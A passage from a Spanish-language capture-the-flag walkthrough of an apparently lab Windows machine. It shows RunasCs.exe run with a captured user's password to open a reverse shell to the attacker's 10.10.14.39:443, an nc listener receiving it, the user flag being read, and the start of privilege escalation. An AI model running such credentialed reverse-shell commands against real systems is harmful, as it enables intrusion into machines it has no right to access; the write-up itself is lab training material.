 Usando el mismo programa para obtener una reverse shell funciona sin ningún problema.

{% highlight powershell %}
PS C:\Users\svc_apache\Documents> ./RunasCs.exe c.bum Tikkycoll_431012284 cmd.exe -r 10.10.14.39:443
[*] Warning: Using function CreateProcessWithLogonW is not compatible with logon type 8. Reverting to logon type Interactive (2)...
[+] Running in session 0 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: Service-0x0-5b533$\Default
[+] Async process 'cmd.exe' with pid 3268 created and left in background.
{% endhighlight %}

{% highlight bash %}
❯ rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.187 53484
Microsoft Windows [Version 10.0.17763.2989]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
{% endhighlight %}

Estando ya como c.bum podemos ver la primera flag

{% highlight batch %}
C:\Windows\system32>cd ..

C:\Windows>cd ..

C:\>cd Users

C:\Users>cd c.bum

C:\Users\C.Bum>cd Desktop

C:\Users\C.Bum\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 1DF4-493D

 Directory of C:\Users\C.Bum\Desktop

09/22/2022  01:17 PM    <DIR>          .
09/22/2022  01:17 PM    <DIR>          ..
05/05/2023  04:58 AM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   4,899,049,472 bytes free

C:\Users\C.Bum\Desktop>type user.txt
89c7ae7e53e349e587b3603a73******
{% endhighlight %}

<h2>ESCALADA DE PRIVILEGIOS</h2>

Mirando los puertos en escucha de la máquina encontramos el 8000, que en el escaneo anterior no salía.

{% highlight bat %}
#netstat -p tcp -nat
...
 TCP    0.0.0.0:8000           0.0.0.0:0              LISTENING       InHost      
...
{% endhighlight %}
